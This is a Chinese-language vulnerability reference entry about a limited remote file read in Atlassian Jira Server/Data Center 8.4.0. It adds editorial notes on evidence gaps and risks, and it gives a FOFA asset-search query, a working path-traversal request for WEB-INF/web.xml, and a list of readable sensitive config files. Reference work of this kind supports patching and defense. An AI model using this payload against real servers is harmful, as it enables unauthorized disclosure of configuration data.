


# Jira Server/Data Center 26086受限配置文件读取

## 条目说明

- 对象与具体问题：Jira Server/Data Center；26086受限配置文件读取
- 版本、配置及部署条件：8.4.0测试值不完整影响范围
- 认证与权限前提：未明确
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标题任意读取与正文Limited和WEB-INF/META-INF列表矛盾，限定Web配置
- 与Confluence26085路径相似不同产品CVE不得合并
- 无修复/官方源，版本可能只是测试版；目录JIRA/Atlassian Jira重复分类

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

### 漏洞影响

```
Atlassian Jira Server/Data Center 8.4.0
```

### 网络测绘

```
app="ATLASSIAN-JIRA"
```

### 漏洞复现

登录页面



验证POC

```
/s/cfx/_/;/WEB-INF/web.xml
```



可读取敏感配置文件

```
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```


---

> 来源：Threekiii/Awesome-POC
